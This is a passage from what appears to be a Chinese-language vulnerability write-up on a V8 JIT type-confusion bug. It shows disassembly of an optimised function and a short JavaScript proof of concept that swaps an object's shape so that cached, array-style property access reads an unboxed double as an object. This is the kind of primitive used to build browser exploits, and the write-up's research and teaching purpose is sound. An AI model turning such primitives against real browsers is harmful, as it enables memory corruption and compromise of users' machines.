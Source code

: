其中opt函数优化为如下，可以看到其被优化为了数组寻址的方法

```
0x3e95ea042b5b    3b  55             push rbp
0x3e95ea042b5c    3c  4889e5         REX.W movq rbp,rsp
0x3e95ea042b5f    3f  56             push rsi
0x3e95ea042b60    40  57             push rdi
0x3e95ea042b61    41  4883ec08       REX.W subq rsp,0x8
0x3e95ea042b65    45  488975e8       REX.W movq [rbp-0x18],rsi
0x3e95ea042b69    49  493b65e0       REX.W cmpq rsp,[r13-0x20] (external value (StackGuard::address_of_jslimit()))
0x3e95ea042b6d    4d  0f8630000000   jna 0x3e95ea042ba3  &lt;+0x83&gt;
0x3e95ea042b73    53  488b5510       REX.W movq rdx,[rbp+0x10]
0x3e95ea042b77    57  f6c201         testb rdx,0x1
0x3e95ea042b7a    5a  0f8449000000   jz 0x3e95ea042bc9  &lt;+0xa9&gt;
0x3e95ea042b80    60  48b9b9a6cc430b0e0000 REX.W movq rcx,0xe0b43cca6b9    ;; object: 0x0e0b43cca6b9 &lt;Map(HOLEY_ELEMENTS)&gt;
0x3e95ea042b8a    6a  48394aff       REX.W cmpq [rdx-0x1],rcx
0x3e95ea042b8e    6e  0f8541000000   jnz 0x3e95ea042bd5  &lt;+0xb5&gt;
0x3e95ea042b94    74  488b5217       REX.W movq rdx,[rdx+0x17]
0x3e95ea042b98    78  488b4217       REX.W movq rax,[rdx+0x17]
0x3e95ea042b9c    7c  488be5         REX.W movq rsp,rbp
0x3e95ea042b9f    7f  5d             pop rbp
```

考虑到是`ICS`缓存机制的原因，`o.a.b`的类型被缓存，因此存入`1.1`时仍然是以`HOLEY_ELEMENTS`的方式将`1.1`打包为`HeapNumber`，存为了对象，那么我们尝试这样修改

```
var obj = `{`a:`{`b:"haivk"`}``}`;

function  opt(o)`{`
    return o.a.b;
`}`
for(var i = 0; i &lt; 0x20000; i++)`{`
    opt(obj);
`}`
//修改点
obj.a = `{`c:2.2`}`;

print(opt(obj));
```

上述，我们改了

```
obj.a = `{`c:2.2`}`;
```

即将a改成了另一个`Shape`形的字典对象，然后调试，可以发现，这回因为没有缓存的原因，`obj.a = `{`c:2.2`}`;`是以`unboxed double`的形式将数据写入

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018ab59f2c132edbb3.png)

而`opt`函数仍然能够访问`obj.a.c`是因为opt被优化为了`数组寻址`的方式，并且opt中仅比较了`obj.a`的类型是否合法，而没有比较`obj.a.b`的类型
